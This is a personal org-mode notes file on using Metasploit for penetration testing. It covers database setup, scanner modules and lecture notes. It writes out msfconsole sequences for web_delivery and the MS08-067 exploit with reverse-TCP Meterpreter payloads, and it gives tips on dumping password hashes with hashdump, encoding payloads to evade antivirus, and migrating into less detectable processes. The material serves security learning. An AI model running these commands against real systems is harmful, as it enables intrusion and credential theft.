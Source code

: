 #+TAGS: metasploit msf


* Metasploit
GitHub: [[https://github.com/rapid7/metasploit-framework][github.com/rapid7/metaspoit-framework]]
* Cmds
[[file://home/crito/org/tech/cmds/msfconsole.org][msfconsole]]
[[file://home/crito/org/tech/cmds/msfvenom.org][msfvenom]]
* Scanners
mssql_ping - this scanner can be used to determine the tcp port and other details about a running MSSQL
smb_version - this will let you know if a machine has samba running and provide other machine information
ssh_version - this will determine the daemon and ssh version
ftp_version - this will version and fingerprint any running ftp server
anonymous - this will check if the ftp server allows anonymous login
snmp_enum - this will help in detection of devices that are using SNMP 
snmp_login - will use a word list, attempting to login to the device
smtp_enum - 

* Related
- Armitage
- Cobalt Strike
* Description
* Usage
** Setting up the db
Kali
- makesure that postgres is running then:
#+BEGIN_SRC sh
msfdb init
#+END_SRC

Manjaro
- makesure that postgres is running then:
#+BEGIN_SRC sh
sudo -u postgres -i
createuser msf_user -P -S -R -D
createdb --owner=msf_user msf_database
#+END_SRC

- now start msfconsole (tempory connection)
#+BEGIN_EXAMPLE
db_connect msf_user:password@localhost:5432/msf_database
db_status
#+END_EXAMPLE
this will start to populate the msf_database

- add file to ~/.msf4/database.yml
#+BEGIN_EXAMPLE

production:
	adapter: postgresql
	database: msf_database
	user: msf_user
	password: msf_password
	host: 127.0.0.1
	port: 5432
	pool: 75
	timeout:5
#+END_EXAMPLE

** Vulnerability Scanners
*** NeXpose
- import scan
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
db_import /tmp/host_101.xml
db_hosts -c address,svcs,vulns
#+END_SRC

- scan within msfconsole
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
load nexpose
nexpose_connect dookie:s3cr3t@192.168.56.103
nexpose_scan 192.168.56.101
db_hosts -c address
#+END_SRC
Scanning from within the msfconsle whist convenient will produce a less complete scan

*** Nessus
- import scan
#+BEGIN_SRC sh
db_connect postgrs:toor@127.0.0.1/msf3
db_import /tmp/nessus_report_Host_101
#+END_SRC

*** OpenVAS
    
*** Speciality Vuln Scanners
vnc_none_auth - this will scan for VNC server configured without a password (rare as modern VNC servers require password for installation). Possible RealVNC4.1.1
open_x11 - this searches a range of hosts for X11 servers that allow connection without authentication

* Modules
** Web Delivery
URL: https://www.offensive-security.com/metasploit-unleashed/web-delivery/
Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.

Type of App: Python PHP PowerShell

Example:
#+BEGIN_SRC sh
Msfconsole
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 1
msf exploit (web_delivery)>set payload php/meterpreter/reverse_tcp
msf exploit (web_delivery)>set lhost 192.168.1.15 (IP of Local Host)
msf exploit (web_delivery)>set lport 4444
msf exploit (web_delivery)>set svrport 8081
msf exploit (web_delivery)>exploit
#+END_SRC
This will start a service running on 4444 and provide a php one liner to be executed on the target machine

** 39166.c
URL: https://vulners.com/exploitdb/EDB-ID:39166
This exploit is specific for Ubuntu 14.04, and drops the attaker into a shell

** java_rhino
URL: [[http://elatov.github.io/2015/12/hack-windows7-with-the-java-rhino-exploit-using-metasploit/][Hack Windows7 with the Java Rhino Expoit - elatov]]
#+BEGIN_EXAMPLE
msf > use exploit/multi/browser/java_rhino
msf exploit(java_rhino) > show options

Module options (exploit/multi/browser/java_rhino):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)

msf exploit(java_rhino) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Generic (Java Payload)
   1   Windows Universal
   2   Apple OSX
   3   Linux x86
   
msf exploit(java_rhino) > show payloads

Compatible Payloads
===================

   Name                                                Disclosure Date  Rank    Description
   ----                                                ---------------  ----    -----------
   generic/custom                                                       normal  Custom Payload
   generic/debug_trap                                                   normal  Generic x86 Debug Trap
   generic/shell_bind_tcp                                               normal  Generic Command Shell, Bind TCP Inline
   generic/shell_reverse_tcp                                            normal  Generic Command Shell, Reverse TCP Inline
   generic/tight_loop                                                   normal  Generic x86 Tight Loop

#+END_EXAMPLE

* Lecture
** [[https://www.youtube.com/watch?v%3DadSQyRPpiBw][Getting Started with Meatasploit - Nathan Sweaney]]
+ Command Line Access
  - msfconsole
  - msfvenom
- msfpayload, msfencode, msfcli have deprecated to msfvenom

+ Terminology
  - Modules
    - Exoplits - take advantage of vulnerability
    - Payloads - does something on the target sys
    - Encoders - bypass av and ids
    - Auxiliary - scanners that aid in discover of certain systems
    - Post - information gathering modules
  - Meterpreter 
    - advanced payload that runs in memory on the target
  - Plugins
    
+ The exploit
  - Target - Unpatched Windows XP Machine
  - Exploit - MS08-067 - MS Server Service Relative Path Stack corruption
  - Payload - Meterpreter
    
- Finding a Module
msf> search MS08-067
This will ouput a description of the exploit with name, disclousure date, Rank, Description

- Set the Module
msf> use exploit/windows/smb/ms08_067_netapi

- View options for module
msf> show options
This will show use the current settings for this module, and is exploit specific

- View possible targets this exploit works on
msf> show targets

- Set the remote host
msf> set RHOST 10.0.1.45

+ Payloads
  - Singles - Simple, self-contained code
    - example: add a user, execute a cmd
  - Stagers - Setup a network connection
    - Examples: TCP lictener on a port, Reverse TCP connection
  - Stages - Advanced payloads sent via stager
    - Examples: VNC server, command shell, Meterpreter

- set payload
> set payload windows/meterpreter/reverse_tcp
never use the default ports, security aware targets maybe monitoring these ports

- show options
> show options
this will now also set the options for the payload

- to run the exploit
> exploit

+ Meterpreter
  - Tons of cmds
    - help
    - OS cmds (cd, ls, pwd, cat, mv, rm)
    - Networking (arp, ifconfig, netstat, portfwd, route)
    - upload/download
    - Record keystrokes, screenshots, webcam, microphone
  - Additional plugins
    
meterpreter> sysinfo - give overview of the system (not much provided win7 or newer)
meterpreter> getpid - get the current pid of meterpreter
meterpreter> migrate 624 - migrate to another process that is less detectable

+ Auxiliary Modules
  - Sniffing
  - Scanning
  - Fuzzing

- Examples
  - tomcat_mgr_login
  - dir_listing
  - vnc_none_auth
  - http_ntlm
  - mssql_exec
    
- Non-Attack
  - scanner/ssh/ssh_version
  - scanner/mssql/mssql_login
  - scanner/ipmi/ipmi_version
  - scanner/http/http_version
  - scanner/snmp/snmp_login

** [[https://www.youtube.com/watch?v=SOy87RUjsoU&list=PLW5y1tjAOzI3n4KRN_ic8N8Qv_ss_dh_F&index=17][Making Your First AUX Module - Mubix]]

* Tutorial
** [[https://www.youtube.com/watch?v%3D9J2ZrKHk6DQ][Introduction to metasploit - Adrian Crenshaw]]

-running sessions in msf can be viewed with: 
> sessions
this will list any active sessions

- to connect to a session
> sessions -i 1
this will connect us to session 1

- encoders
  - the x86/shikata_ga_nai
    
- windows bax with meterpreter
hashdump
  - this will dump all the user passwords
tspkg - this can be used in metasploit to cra
wdigest

** [[https://www.youtube.com/watch?v=TCPyoWHy4eA&feature=youtu.be][Metasploit Minute - Mubix - Hak5]]



* Books
[[file://home/crito/Documents/Security/Metasploit/Metasploit-The_Penetration_Testers_Guide.pdf][Metasploit - The Penetration Tester's Guide]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Penetration_Testing_Cookbook_2e.pdf][Metasploit Penetration Testing Cookbook]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Toolkit_for_Penetration_Testing.pdf][Metasploit Toolkit for Penetration Testing]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Guide.pdf][Metasploit Guide]]

* Links
[[http://www.davidpashley.com/articles/postgresql-user-administration/][Postgresql User Administration]]
